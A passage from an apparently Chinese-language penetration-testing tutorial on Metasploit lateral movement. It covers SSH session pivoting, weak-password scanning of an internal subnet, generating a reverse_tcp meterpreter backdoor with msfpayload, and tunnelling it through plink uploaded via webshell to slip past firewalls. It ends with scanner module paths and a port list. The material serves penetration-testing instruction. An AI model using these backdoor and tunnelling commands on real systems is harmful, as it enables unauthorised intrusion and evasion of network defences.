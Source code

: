 之后使用proxychains4`-q`选项运行，然后就不会有杂乱混杂的输出了。

### ssh

**meta_ssh**

当有一个ssh登录权限后,可以使用这个插件在ssh会话基础上建立链接(见参考<2>)。

![enter image description here](http://drops.javaweb.org/uploads/images/25d26507b9c7008062060fb365bccb374218b870.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/eb9e59e4aee2dd4bb3ab514e00a1c4e02fb1e410.jpg)

之后进入shell，查看网卡IP信息，然后退出再添加路由表。

![enter image description here](http://drops.javaweb.org/uploads/images/f8b7546d87070d852692239e3b432c140a7ae5c6.jpg)

再尝试扫描5.5.5.0/24这个段，然后对这个段中的5.5.5.134进行弱口令扫描。

![enter image description here](http://drops.javaweb.org/uploads/images/5d126fa6155e3877ad6279ff61ed76de9280e0aa.jpg)

发现可以获得结果。

**ssh/plink.exe**

还有一种利用SSH的方式就在windows下使用plink反弹,这样数据包经过SSH加密后，便可以躲过防火墙的检测。同理在linux也是一样的。 首先生成反弹到本地的reverse后门。

```
msfpayload windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=5566 >  ~/Desktop/backdoor_reverse_localhost.exe

```

![enter image description here](http://drops.javaweb.org/uploads/images/6a98ea8e4eccb172dc75c74682ca54e336cd5565.jpg)

然后开启本地监听，再将plink和backdoor.exe通过webshell上传。然后执行

```
echo y | plink.exe -L 5566:192.168.6.131:6666 192.168.6.131 -l root -pw toor

```

之后运行backdoor.exe，meterpreter就通过ssh tunnel建立起来了。

![enter image description here](http://drops.javaweb.org/uploads/images/6a609174bf204a2777aa9d5334a9c4ecb0b4b607.jpg)

0x03 内网扫描
---------

* * *

Metasploit对于常见服务(`smb/ssh/mysql/mssql/oracle/ftp/tfp/ …etc`)扫描可以做到版本信息(`banner`)、登录验证等。

简单过程可以参考之前的笔记《msf内网渗透小记》

具体扫描的脚本路径在`/usr/share/metasploit-framework/modules/auxiliary/scanner`下，可以根据需求自行发现。

常见的扫描端口:`7,21,22,23,25,43,50,53,67,68,79,80,109,110,111,123,135,137,138,139,143,161,264,265,389,443,445,500,631,901,995,1241,1352,1433,1434,1521,1720,1723,3306,3389,3780,4662,5800,5801,5802,5803,5900,5901,5902,5903,6000,6666,8000,8080,8443,10000,10043,27374,27665`
